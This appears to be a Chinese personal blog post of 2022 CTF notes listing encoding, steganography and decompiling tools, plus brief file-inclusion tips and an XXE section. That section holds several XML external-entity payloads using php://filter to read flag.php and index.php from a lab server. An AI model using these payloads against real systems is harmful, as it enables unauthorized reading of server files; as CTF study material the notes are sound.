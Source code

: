 ```yaml
---
title: 2022 CTF 记录
date: 2022-03-11 23:00:19
keywords: ctf , python
description: 
---
```




## 编码转换工具

* Morse 编码，摩尔斯编码
* 字母表编码
* ASCII 编码

## 隐写读取工具

* 010Editor
* `file` 命令
* `strings` 命令
* `binwalk` 命令



## 在线工具

1. [csaw-ctf-misc-pdf](https://blog.csdn.net/Claming_D/article/details/106301645)
2. [与佛论禅](https://www.keyfc.net/bbs/tools/tudoucode.aspx)
2. [rot13](https://rot13.com/)
2. [站长之家 - Base64解密](https://tool.chinaz.com/tools/base64.aspx)
2. [**摩尔斯电码转换**](http://www.zhongguosou.com/zonghe/moersicodeconverter.aspx)
2. [在线二进制转换为字符串](http://1818288.com/o/?id=Mzky)
2. [在线凯撒解密](http://www.metools.info/code/c70.html)



## 反编译工具

1. [JD-GUI](http://java-decompiler.github.io/)
2. [ida](https://www.hex-rays.com/ida-free/#download)
3. upx 脱壳工具，Kali 中带了
3. uncompyle6 ，pyc 反编译工具，可以通过 pip 安装

## file include 思路

看源码，两个文件，第二个使用 data 方式构建

包含 flag.php 后提示 Wrong Way

尝试使用 php 方式构建第一个文件的内容，显示 flag 源码

显示内容后，进行 base64 解码



## 注册

XXE

http://172.31.39.14/flag.txt?a 显示了 phpinfo()



```
<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php">

<!DOCTYPE test [ <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/home/www-data/index.php" > ]>


<!DOCTYPE test [ <!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=/home/www-data/index.php">]> 
<root><firstname>a</firstname><phonenumber>1</phonenumber><emailadd>cocowool@qq.com</emailadd></root>
```





## 参考资料

1. [CTF Wiki](https://ctf-wiki.org)
1. [Mac 安装 Java 反编译工具 JD-GUI](https://blog.csdn.net/qq_37958845/article/details/121703791)
1. [XCTF-Reverse-ExerciseArea-005-writeup](https://blog.csdn.net/qq_35056292/article/details/98025948)
1. [菜鸡开始接触一些基本的算法逆向了](https://www.cnblogs.com/nmlwh/p/13415178.html)

